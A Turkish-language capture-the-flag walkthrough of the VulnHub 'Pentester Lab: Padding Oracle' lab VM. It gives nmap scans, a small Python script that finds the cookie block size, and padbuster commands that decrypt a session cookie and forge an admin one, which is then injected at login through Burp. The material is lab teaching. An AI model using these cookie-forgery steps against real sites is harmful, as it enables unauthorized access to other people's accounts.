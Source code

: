 Merhabalar,

Malum ilk yazı olunca ağırdan alalım dedik ve başlangıç olarak ***Pentester Lab:Padding Oracle*** sanal makinesini kurcaladık. Dolayısıyla yazı boyunca kullanılacak üslup da başlangıç seviyesine hitap ediyor olacak. Faydalı olması dileğiyle.

> **Not:** Vm'e GSM operatörlerinin unuttuğu bi yerden giriştiğim için; 
>
>![images](screenshots/loading.jpg)
>
>[@rootofarch](https://twitter.com/rootofarch)'ın [*son yazısında*](https://github.com/rootofarch/walkthroughs/tree/master/Donkey-Docker) bahsettiği **ruleti** atacak kadar geç bitirdim yazıyı :( 

>Onun ss'ini de en sona ekliyorum...şşt inme sona sürprizi kaçmasın :)

__Pentester Lab:Padding Oracle__

Sanal makinenin detaylarına ve ek bağlantılara [*buradan*](https://www.vulnhub.com/entry/pentester-lab-padding-oracle,174/) ulaşabilirsiniz.

Vm, adından da anlaşılacağı gibi `padding oracle` olarak geçen atağı simüle etmek için hazırlanmış. Bu yüzden konuyu anlayabilmek için öncelikle bu kavramı incelemek gerekiyor. Atak yöntemi [*şu linkte*](https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth) derinlemesine işlenmiş. 

Hiçbiriniz o linke gitmedi tabii ama devam etmeden önce en azından **Example** başlığını okuyun da gelin, bekliyorum :)

-----

Geldiyseniz ufaktan başlayalım; indirdiğimiz **ISO** dosyasına ve tercihen **Kali Linux** sistemimize can veriyoruz. Vm'de şöyle bir başlangıç bizi karşılıyor:

![images](screenshots/01.png)

Vm her ne kadar **"Üzerimde http servisi açık"** diye bağırsa da n'olur n'olmaz diyerek prosedürü bozmuyoruz.

```
$ ifconfig
```

![images](screenshots/02.png)

ile **Kali** makinemizin **IP** adresini öğrenip, hedefin adresini ve açık olan portları tespit edebilmek için **nmap** taramamıza geçiyoruz.

```
$ nmap -sV 192.169.43.219/24
```

![images](screenshots/03.png)

> **Tip:** Burada emin olduğumuz için standart tarama yaptık ancak genelde ufak sürprizlere karşı tüm portları taramakta fayda var. Çünkü ***nmap*** default olarak ***top 1000*** port üzerinde  tarama yapıyor.
> ```
> $ nmap -p 1-65535 [IP SCOPE] #nmap --help
> ```

görüldüğü üzere **80** portunda **HTTP** servisi aktif durumda. Hemen **browser**'ımıza koşuyoruz.

![images](screenshots/04.png)

buna göre amacımız;

- **admin** kullanıcı adı ile **login** olmak

**register** sekmesinde **admin** kullanıcı adı ile yeni bir hesap oluşturmayı deniyoruz. Tabii o bunu yer mi? Yemez. Zaten olmasını beklemiyorduk :)

> **Tip:** Bazen servisleri hata vermeye zorlamak bize onlar hakkında ufak ipuçları kazandırabilir. Çünkü **error** kalıpları da ayırt edici özellikte olabiliyor.

![images](screenshots/05.png)

daha önce **nmap** taramamızda **MySQL** servisinin çalıştığını görmeseydik bile *Duplicate entry **'admin'** for key 'PRIMARY'* olarak dönen hata bize arkada çalışan servisin büyük ihtimalle **MySQL** olduğunu söylüyor olacaktı.

Neyse biz işimize dönelim ve kendi kullanıcımızı oluşturalım.

![images](screenshots/06.png)

**aucc** kullanıcı adı ile bir hesap oluşturup **login** olduk. Bu noktada `padding oracle` ibaresini hatırlamamız gerekiyor ve **cookie** var mı diye kontrol ediyoruz.

![images](screenshots/07.png)

sitenin çalışma şekli tam da başlangıçta verdiğim linkte anlatıldığı gibi. 

![images](screenshots/toldya.jpg)

Şimdi yapmamız gereken şey **login** esnasında **client** ile **server** arasına girerek **cookie**'ye müdahale etmek yani ***man in the middle attack***. Ama bundan önce iş **admin** cookie'sini oluşturmakta.

Ufak bi araştırma sonucu `padding oracle` atakları için biçilmiş kaftan olan **padbuster** adında bi araç buluyoruz. **Kali'de** zaten bulunuyor ve kullanımı kolay. Ama aracın bizden istediği **inputlardan** birisine hala sahip değiliz; ***block-size***

![images](screenshots/08.png)

**Block-size'ı** bulma konusunda en hızlı yol tabii ki deneme yanılma ama -nasıl becerdiysem- bulamadım :( Haliyle akılsız başın cezasını parmaklar çekiyor ve kısa bi script yazıyoruz:

```
#!/usr/bin/python

import urllib
import base64

with open("cookies") as file:
    cookies = file.readlines()
cookies = [x.strip() for x in cookies]

print("Len. Cookie")

for cookie in range(len(cookies)):
	
 	x = urllib.unquote_plus(cookies[cookie])
 	x = base64.b64decode(x)
 	print(len(x),cookies[cookie])
```

buradaki mantık **username'deki** karakter sayısını artırarak *(au, aucc, auccauc...)* elde ettiğimiz **cookie'lerin** üretiminde kullanılan algoritmaya **padding** işlemini yaptırmak. 

![images](screenshots/09.png)

**Output'a** bakacak olursak da açık şekilde görülüyor **block-size'ın 8**  olduğu. Bu da demek oluyor ki **padbuster'ı** kullanmaya hazırız.

```
$ padbuster http://192.168.43.247/login.php JrTKq42sXw63THYmbbIgK147lo%2BPfxJ6 8 --cookies auth=JrTKq42sXw63THYmbbIgK147lo%2BPfxJ6 --encoding 0
```

*"Enter an ID that matches the error condition"* uyarısına benim durumum için **2** girmem gerekti.

![images](screenshots/10.png)
![images](screenshots/11.png)

***Decrypted value (ASCII) : user=aucc*** olarak tertemiz çıktı. Bu algoritma ile ***"user=admin"*** i encrypt etmemiz gerekiyor.

```
$ padbuster http://192.168.43.247/login.php JrTKq42sXw63THYmbbIgK147lo%2BPfxJ6 8 --cookies auth=JrTKq42sXw63THYmbbIgK147lo%2BPfxJ6 --encoding 0 --plaintext user=admin
```

![images](screenshots/12.png)
![images](screenshots/13.png)

***Encrypted value*** elimizde olduğuna göre tek yapmamız gereken **login** esnasında bizim **auth** değerimizi araya sıkıştırmak. Bunun için **burp** kullanabiliriz.

![images](screenshots/14.png)

değeri değiştirip **forward** ettiğimizde

![images](screenshots/15.png)
![images](screenshots/16.png)

o yeşil yazıyı görüp sevindirik oluyoruz :) derken... 

**rulet** yandan göz kırpıyor ( -_- ) ve ***"Zaten sistem değiştirecektim"*** bahanesiyle veriyorum gazı ama ilk denemede gol oluyor :D

![images](screenshots/17.jpg)
![images](screenshots/18.jpg)

sistem gittiğine göre artık yeni sistemi kurunca başka zaafiyetli makineler ile görüşmek üzere :D

----
**[Mahmut Sami Karaca](https://twitter.com/msamikaraca_)**


